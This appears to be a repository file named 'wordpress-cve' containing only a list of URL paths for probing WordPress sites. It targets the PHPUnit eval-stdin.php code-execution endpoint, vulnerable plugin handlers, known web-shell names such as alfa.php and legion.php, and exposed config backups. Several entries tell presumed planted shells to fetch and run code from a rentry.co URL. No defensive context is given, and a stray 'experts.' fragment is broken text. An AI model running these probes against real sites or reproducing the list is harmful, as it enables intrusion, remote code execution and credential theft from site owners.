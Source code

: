 # wordpress-cve

experts.

/wp-content/plugins/wpdiscuz/themes/default/style-rtl.css
/wp-content/plugins/fancy-product-designer/inc/custom-image-handler.php
/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
/wp-content/langar.php
/test.php?Ghost=send
/config.php
/upload.php
/up.php
/wp-includes/small.php
/wp-includes/lfx.php
/wp-content/mu-plugins/db-safe-mode.php
/legion.php
/wp-content/wp-old-index.php?action=login&pass=-1&submit=
/haders.php
/wp-content/plugins/wpconfig.bak.php?act=sf
/wp-content/plugins/ubh/up.php
/wp-includes/css/wp-config.php
/wp-content/plugins/config.bak.php
/wp-content/themes/config.bak.php
/wp-includes/config.bak.php
/wp-content/config.bak.php
/wp-admin/config.bak.php
/config.bak.php
/old-index.php
/wp-includes/css/css.php
/wp-includes/fonts/css.php
/wp-1ogin_bak.php
/wp-content/wp-1ogin_bak.php
/cindex.php
/wp-booking.php
/alfa.php
/alfindex.php
/th3_err0r.php?php=https://rentry.co/yu8xc/raw
/larva.php?idb=https://rentry.co/yu8xc/raw
/wpindex.php?idb=https://rentry.co/yu8xc/raw
/xmlrp.php?url=https://rentry.co/yu8xc/raw
/wp-content/plugins/ioptimization/IOptimize.php?rchk
/wp-content/db_cache.php
/wp-content/plugins/backup_index.php
/boom.php?x
/?3x=3x
/index.php?3x=3x
/admin.php
/wp-content/plugins/t_file_wp/t_file_wp.php?test=hello
/moduless.php
/style.php
